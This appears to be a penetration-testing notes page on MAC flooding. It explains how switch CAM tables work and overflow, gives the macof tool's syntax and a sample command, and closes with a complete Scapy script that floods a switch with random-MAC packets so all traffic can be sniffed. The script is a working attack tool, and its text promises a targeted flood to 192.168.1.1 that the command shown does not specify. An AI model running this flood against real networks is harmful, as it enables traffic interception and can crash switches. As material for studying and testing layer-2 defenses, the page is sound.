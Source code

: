 # MAC Flood

## CAM Table&#x20;

![](<../../.gitbook/assets/image (298) (1).png>)

• CAM Table stands for Content Addressable Memory

• The CAM Table stores information such as MAC addresses available on physical ports with their associated VLAN parameters

• CAM Tables have a fixed size

## Normal CAM Behavior

![](<../../.gitbook/assets/image (277) (1) (1).png>)

![](<../../.gitbook/assets/image (300) (1) (1).png>)

![](<../../.gitbook/assets/image (276) (1) (1) (1) (1).png>)

## CAM Overflow

• Theoretical attack until May 1999&#x20;

• macof tool since May 1999 (about 100 lines of perl)

• Based on CAM Table’s limited size

![](<../../.gitbook/assets/image (293) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (281) (1).png>)

#### Dsniff (macof) can generate 480,000 MAC entries on a switch per minute 8000/s\*60.

Assuming a perfect hash function the CAM table will total out at 128,000 (16,000 x 8) 131,052 to be exact Since hash isn’t perfect it actually takes 70 seconds to fill the CAM table.

#### Once table is full, traffic without a CAM entry floods on the VLAN, but NOT existing traffic with an existing CAM entry

![](<../../.gitbook/assets/image (297) (1).png>)

Syntax:

```
macof [-i interface] [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-n times]

-i   interface Specify the interface to send on.
-s   src Specify source IP address.
-d   dst Specify destination IP address.
-e   Specify target hardware address.
-x   sport Specify TCP source port.
-y   dport Specify TCP destination port.
-n   times Specify the number of packets to send
```

#### Macof can flood a switch with random MAC addresses. This is called MAC flooding. This fills in the switch’s CAM table, thus new MAC addresses can not be saved, and the switch starts to send all packets to all ports, so it starts to act as a hub, and thus we can monitor all traffic passing through it.

## Targeted Flooding

Macof can flood a switch with random MAC addresses destinated to 192.168.1.1.

```
macof -i eth1 -n 10
```

While conducting a pentest, this tool comes in handy while sniffing. Some switches don’t allow to spoof arp packets. This tool can be used in such situations to check if the switch is overloaded. Some switches behave like hubs, transmitting all source packets to all destinations. Then sniffing would be very easy. Some switches tend to crash & reboot also. Such kind of layer 2 stress testing can be done with this handy tool

## MAC flooding with scapy

```python
#! /usr/bin/python

nbpkts = 8192
iface = "eth0"

import sys
from scapy.all import sendpfast, Ether, IP, RandIP, RandMAC, TCP

print("Initializing...")

# We first build all packets...
pkts = []
for i in xrange(0, nbpkts):
  macaddr = str(RandMAC())
  # Quick-and-dirty way to ensure that the I/G remains unset
  macaddr = macaddr[:1] + "0" + macaddr[2:]
  # This packet structure mimics a TCP SYN sent to a HTTP server.
  # A random dst mac should also work, setting one fixed can be useful
  # to easily filter-out flood-related packets when capturing traffic.
  # You can use IPs valid for your range, but be cautious that if any
  # host is made to send some RST for instance its MAC address will be
  # registered by the switches.
  pkts.append(Ether(src=macaddr, dst="ff:ff:ff:ff:ff:ff")/
              IP(src=str(RandIP()), dst=str(RandIP()))/
              TCP(dport=80, flags="S", options=[('Timestamp', (0, 0))]))

print("Launching attack, press Ctrl+C to stop...")

# ...and then we send them in loop.
while True:
  # Adapt pps (Packets Per Second) to your needs. Running a complex
  # GNS3 topology on a low-end machine will take all the CPU causing
  # packet loss, pps will then need to be high to replay lost packets.
  # Given enough CPU, packet loss can remain low and pps can be lowered
  # too.
  sendpfast(pkts, iface=iface, file_cache=True, pps=5000, loop=999)

```
